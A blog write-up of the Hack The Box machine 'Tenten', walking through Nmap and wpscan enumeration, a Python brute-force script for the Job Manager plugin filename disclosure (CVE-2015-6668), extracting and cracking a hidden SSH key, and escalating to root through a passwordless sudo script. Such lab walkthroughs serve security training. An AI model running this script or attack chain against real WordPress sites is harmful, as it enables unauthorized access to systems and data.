 ```yaml
---
layout: PostSimple
date: 2020-01-12
title:     "Hack The Box - Tenten"
tags: ['linux','medium','sudo','wordpress','plugin']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/1.png)

We are going to pwn Tenten from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/8](https://www.hackthebox.eu/home/machines/profile/8)


Like always begin with our Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/2.png)[br/](br/)
Since its a wordpress site we can enumerate using ``wpscan`` to get see if there is any users and plugins available[br/](br/)
Found a Plugin called ``job-manager``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/3.png)

Found an User  ``takis``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/4.png)

I started searching for any exploits available for that plugin and found

>https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/

From the blog I found there is a directory ``/index.php/jobs/apply/@@/``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/5.png)

As we can see there is an ID and when I changed to some random numbers and job title has been changed.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/6.png)

So I started trying some random number to check if there is anything useful for us.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/7.png)[br/](br/)
Found this ``HackerAccessGranted`` from the ID 13 , Which looks suspecious.

In WordPress there is directory structure for the uploaded files is recognized by ``/wp-content/uploads/%year%/%month%/%filename%``
 
There is a python script given in the above Link ``CVE-2015-6668`` which helps to find the exact directory of the file location by bruteforcing.

I did some modifications on the script 

> - Changed the year range to the year of the box released.
> - Changed the extensions.

```
import requests

print """  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
"""  
website = raw_input('Enter a vulnerable website: ')  
filename = raw_input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2017,2018):  
    for i in range(1,13):
        for extension in {'jpg','jpeg','png','pdf','txt'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/8.png)[br/](br/)
It found the exact location of the file ``HackerAccessGranted``

Opened the link and its an image.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/9.png)

This is the image we found!![br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/10.1.jpg)

Downloaded it to my machine to check with ``steghide`` to see if there is anything hidden.

> steghide - a steganography program

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/10.png)

Got SSH Private key so lets use ssh2john before cracking it with john[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/11.png)[br/](br/)
I saved the output as ``ssh2john`` and I gave it to ``john`` to crack the password.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/12.png)[br/](br/)

So the password is ``superpassword``. We already know there is an user named ``takis``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/13.png)

## Privilege Escalation:

Like always I started with ``sudo -l``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/14.png)

Looks like we can run ``fuckin`` as root without password.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/15.png)[br/](br/)
``fuckin`` seems to be a script that contains arguments and that we need to pass on.

Lets try with ``whoami``

Now its time to get reverse shell as root using the ``fuckin``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/16.png)

Started my listener[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/17.png)

I got Root!


